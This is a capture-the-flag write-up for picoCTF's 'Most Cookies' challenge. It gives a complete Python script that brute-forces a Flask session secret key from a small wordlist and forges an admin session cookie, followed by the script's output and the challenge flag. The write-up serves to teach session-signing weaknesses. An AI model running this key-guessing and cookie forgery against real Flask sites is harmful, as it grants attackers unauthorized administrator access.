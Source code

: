 # Most Cookies

## Method

Alright, enough of using my own encryption. Flask session cookies should be plenty secure!

where we are then provided with a server.py and a website.

our hint is how secure is a flask cookie.

A Flask cookie is a small piece of data stored on the user's browser, which the Flask web framework can use to remember information across different requests. 
For example, Flask can set a cookie to keep a user logged in or remember their preferences as they navigate a website. 
Cookies in Flask are easy to set up with response.set_cookie and can also be securely signed to prevent tampering by using the SECRET_KEY.

Normally flask cookies are very hard to break as they have a secret_key luckily with the server.py they gave us the creation script of these cookies.

This Flask app uses cookies and sessions to implement a simple authentication-like mechanism. It works as follows:

1. **Cookie Names**: A list of valid "cookie names" is defined, and one is chosen as a secret key for signing the session cookies.
2. **Setting Cookies**: The app sets a session cookie (`very_auth`) to track user input, initially set to `"blank"`.
3. **User Input**: Users enter a "cookie name" on `/search`. If the name is valid, it saves to `session["very_auth"]` and redirects to `/display`.
4. **Flag Display**: On `/display`, if `very_auth` matches `"admin"`, a special "flag" is shown. For other valid names, a message is shown but without the flag.

The app uses Flask cookies to store and verify the "cookie name" across pages.

so quite literally we need to make a admin cookie that allows us to authenticate this.

To this we first need to find what secret_key was used by bruteforcing and comparing each option to the current session cookie we have.
The cookie's secret key will be one of the following 

```
possible_keys = [
    "snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", 
    "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", 
    "kiss", "biscotti", "butter", "spritz", "snowball", "drop", 
    "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", 
    "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", 
    "black and white", "white chocolate macadamia"
]
```
Luckily we can use The flask_cookie function that can encode or decode flask cookies (That i found online) is defined to handle the encoding and decoding of cookies. 
It takes a secret_key, the cookie_data (which is an arr element of cookie_str), and the operation (either "encode" or "decode").

Using this function we can decode the cookie str I have by comparing it to all possible_keys.
Once we have the secret_key that made the session key we currently have we can generate an admin cookie.

We can first grab our current cookie string by using an extension called Cookie-Editor

```
import hashlib
from itsdangerous import URLSafeTimedSerializer
from itsdangerous.exc import BadTimeSignature
from flask.sessions import TaggedJSONSerializer

# Cookie names list from the server application
possible_keys = [
    "snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", 
    "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", 
    "kiss", "biscotti", "butter", "spritz", "snowball", "drop", 
    "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", 
    "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", 
    "black and white", "white chocolate macadamia"
]

# cookie string obtained from the website
cookie_str = "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.ZyPFrQ.49hTipCsK3vGMPd_AyZtVXdfy9w"

# Function to encode/decode Flask cookies
def flask_cookie(secret_key, cookie_data, operation="decode"):
    salt = 'cookie-session'
    serializer = TaggedJSONSerializer()
    signer_kwargs = {'key_derivation': 'hmac', 'digest_method': hashlib.sha1}
    s = URLSafeTimedSerializer(secret_key, salt=salt, serializer=serializer, signer_kwargs=signer_kwargs)

    try:
        if operation == "decode":
            return s.loads(cookie_data)
        elif operation == "encode":
            return s.dumps(cookie_data)
    except BadTimeSignature:
        return None

# Step 1: Brute force the secret key
def brute_force_secret_key(cookie_str, possible_keys):
    for key in possible_keys:
        decoded = flask_cookie(key, cookie_str, "decode")
        if decoded:
            print(f"Found Secret Key: {key}")
            print(f"Decoded Cookie Data: {decoded}")
            return key
    print("Secret key not found in provided list.")
    return None

# Step 2: Generate an admin cookie
def generate_admin_cookie(secret_key):
    admin_cookie = {"very_auth": "admin"}
    encoded_cookie = flask_cookie(secret_key, admin_cookie, "encode")
    return encoded_cookie

def main():
    print("Brute-forcing the secret key...")
    secret_key = brute_force_secret_key(cookie_str, possible_keys)

    if not secret_key:
        print("Failed to find the correct secret key.")
        return
    
    print("\nGenerating admin-level cookie...")
    admin_cookie = generate_admin_cookie(secret_key)

    if admin_cookie:
        print(f"Admin Cookie: {admin_cookie}")
    else:
        print("Failed to encode the admin cookie.")

if __name__ == "__main__":
    main()

```

My output when running 

```
Brute-forcing the secret key...
Found Secret Key: peanut butter
Decoded Cookie Data: {'very_auth': 'snickerdoodle'}

Generating admin-level cookie...
Admin Cookie: eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.ZyPFuQ.3-eOMHR1Wbjmxy8MhPP34iazGUA
```

Once we have the admin cookie we can then change our current cookie to the admin one using a cookie-editor extension and refresh the website to then see the flag :D

## Flag 

> picoCTF{pwn_4ll_th3_cook1E5_478da04c}
